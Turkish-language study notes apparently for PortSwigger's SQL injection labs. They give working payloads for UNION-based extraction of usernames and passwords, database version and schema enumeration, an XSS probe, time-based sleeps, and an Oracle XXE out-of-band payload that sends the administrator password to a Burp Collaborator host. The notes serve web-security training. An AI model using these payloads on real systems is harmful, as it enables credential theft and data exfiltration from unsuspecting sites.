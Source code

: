 <h1 align="center">PortSwigger SQL Labları ve Çözümleri</h1>

Bu link üzerinden PortSwigger'ın hazırladığı [*SQLi Cheat Sheet*](https://portswigger.net/web-security/sql-injection/cheat-sheet)'e ulaşabilirsiniz.

## Lab: SQL injection UNION attack, retrieving data from other tables
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/4c57a4ac-6b70-44a8-9d4b-c937c5995c6c)
- Buna bakarak: SQL query’sinden dönen datanın ekranda print edilmesi senin için bir zaafiyet durumunda UNION ile daha kolay çözebileceğin anlamına gelir.
- MYSQL ve Postgresql de karşılaşılan tırnak hadisesi.
```
...?category=Accessories'
```
Internel Server Error görmen zaafiyet olması anlamına gelmiyor.
```
...?category=Accessories''
```
- 2 tane tırnak attığında errorun ortadan kalkıyor olması DB e giden syntax erroru çözdün demek oluyor yani SQLi var burda.
	- Accessories' and '1'='1 ile de çözebilirsin.
- 'Accessories' and '1'='1' bunu bu şekilde çözmektense,
- 'Accessories' and 1=1--' buna dönüştürürsen eğer # şekilnde mi --(Postgres için command line işareti) şeklinde mi çalışıyor ondan emin olursun. 
- Bundan emin olduktan sonra UNION ile ilerleyebilirsin.
```sql
Accessories' UNION SELECT null,null--
	UNION kullanmak için kolon sayısı aynı olması gerekiyor o yüzden 2 tane null yetti

mehmetince' UNION SELECT null,null--
	diğer veriler gelmemesi için

UNION SELECT username,password FROM users--
	username ve password kısmı lab girişinde söyleniyor.
```
## Lab: SQL injection UNION attack, retrieving multiple values in a single column
```sql
SELECT a,b,c,d FROM x WHERE y = 'Accessories'
```
- Eğer gelen datanın 2 kolonundan sadece tek bir kolonun datasını yazıyor ise;
```sql
UNION SELECT null,'metmet' FROM users--
```
#### kolonların type ları aynı olması gerekiyor burası çokomelli (Mysql istemez, Postgresql ister)
```sql
UNION SELECT null,CONCAT(username,':::MDISEC:::',password) FROM users--
```
- username ve password kolonlarını birleştiriyor arasına da :::MDISEC::: yazıyor
## Lab: SQL injection attack, querying the database type and version on Oracle
```sql
...accessories' UNION SELECT null,null FROM dual--

...accessories' UNION SELECT null,'mehmet' FROM dual--
	hangi kolonu alıyor onu anlamak için.

...accessories' UNION SELECT null,banner FROM v$version--
	SELECT banner FROM v$version şeklinde çalışıyor
```
- Bu datayı ekrana print ederken encoding yapmıyorsa XSS de olabilir. Gelen datayı değiştir, manipüle et.
```sql
UNION SELECT null,<svg onload=alert(1)> FROM v$version--
```
## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft [*Lab linki*](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
- Mysqlde -- boşluk ve yanına bir şey yazman lazım # yerine
```mysql
?category=MDISEC' UNION SELECT null,@@version#
	# yerine %23
```
## Lab: SQL injection attack, listing the database contents on non-Oracle databases [*Lab Linki*](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
```mysql
...?category=MDISEC' UNION SELECT 1,2 -- aasf
```
- hangi tip DB olduğunu öğrenmek için öncelikle böyle yaptık. 1,2 yazarak data tipleri farklı olan bir tabloymuş gibi istek attık Postgresql aynı istediği için hata verdi
```mysql
?category=MDISEC' UNION SELECT null,null -- aasf
```
- yazınca düzeldi
```mysql
?category=MDISEC' UNION SELECT null,table_name FROM information_schema.tables-- aasf''
?category=MDISEC' UNION SELECT null,table_name FROM information_schema.tables WHERE table_schema=current_schema()-- aasf
```
- sadece bizim şemaya ait tablo isimlerini getirmek istiyoruz
```mysql
?category=MDISEC' UNION SELECT null,column_name FROM information_schema.cloumns WHERE table_name='users_yhfrcv'--
```
- username ve şifre kolonlarını getirdi bize
```
MDISEC' UNION SELECT null,concat(username_ktovtr, ':::MDISEC:::', password_sgugwv) FROM users_yhfrcv--
```
## Lab: Blind SQL injection with out-of-band data exfiltration
1) category=Lifestyle'
2) category=Lifestyle''
  - Data gelmedi iki şekilde de sıkıntı var aga burda değil demekki


- ürünler üstünde deneyelim
1) productid=9'
	- hata geldi
2) productid=9''
	- yine hata geldi burada da değil o zaman
  - Bu kategorilerde data gelip gittiği için Blind değil, Error görmediğimiz için de error based hiç değil.
1) category=Lifestyle"
2) category=Lifestyle'--
	- olmuyor...
- Burp Suite başvurma zamanı
- Cookie kısmında TrackingId ' yapmayı denedi olmadı. Data eksilip artmadı.
	- TrackingId olsaydı, SQL INSERT sorgusunda sıkıntı olmuş olurdu
	- SessionId kısmına da aynısını yaptı yine olmadı.
  - Hala TrackingId den şüphelenmeye devam ediyor. Time Based payloadlar deniyor.
```sql
' -sleep(5)-'
'||pg_sleep(5)||'
```
- Şöyle bir şey de olabilir : 
  - Senden aldığı isteği direkt cevabını veriyor olabilir, arka tarafta da Background Job başlatır ve senden aldığı parametre ile iş yapar.
  - DB aldığı veriyi Queue'ya yazıyor onu da Worker'a veriyor. Burda Time Based SQLi işe yaramaz. SQLi çalışıyor ama arkadaki iş bekliyor.
- Dışarıyla iletişim kurmayı sağlatmak gerekiyor. Cookieleri noktalı virgüle(;) göre alıyor
  - TrackingId=ljashfuashuıeasjf';SELECT; session=asjfhasfhasoıjasd15811he281uıhur
	- yapsan bile noktalı virgüle(;) göre ayırdığı için cookieleri, bunları arkada nasıl ayıracak belli değil.
#### Lab sayfasında asenkron yazıyormuş :) Bu tür yapıları gerçek hayatta da exploit etmek zor whitebox testlerde rahat çıkartabiliyorsun.
##### Gerçek hayat senaryosunda şöyle bir şey gerçek olmaz : SELECT * FROM x WHERE y = ljashfuashuıeasjf
- INSERT sorgusu görürsün databasede. INSERT INTO X (a,b,c) VALUES ('','','ljashfuashuıeasjf')
- sleepi denemesinin sebebi de INSERT sorgusu varsa sleep eder diye.
```sql
INSERT INTO X (a,b,c) VALUES ('aaaaa'); ,'','ljashfuashuıeasjf')
```
- Bu kısım sıkıntı çıkartmaya başlar ; yüzünden
```sql
INSERT INTO X (a,b,c) VALUES ('','','A'||(SELECT)||'C')
```
- SubSELECT sorgusu atabiliyor muyuz onu kontrol ediyor. ORACLE olduğuna karar verdi
- Burp collaborator açtı en sol üstteki Burp sekmesinden. Asenkron yapı olduğu için başka bir websitesine istek attırtıyorsun zorla.
```sql
INSERT INTO X (a,b,c) VALUES ('','','A'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %25remote;]>'),
'/l') FROM dual)||'C')
```
- Bu şekilde de olur
```sql
INSERT INTO X (a,b,c) VALUES ('','','A'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://askfjgasjıs.BURP-COLLABORATOR-SUBDOMAIN/"'||(SELECT password FROM users WHERE username = 'administrator')||'> %25remote;]>'),
'/l') FROM dual)||'C')
```
- İsteği yolladıktan sonra Poll now tuşuna bas collaborator dan.

## Ekstra Not:
SQLmapte : * koyarak parametre vermiş oluyorsun
x.com/api/user/1*/get
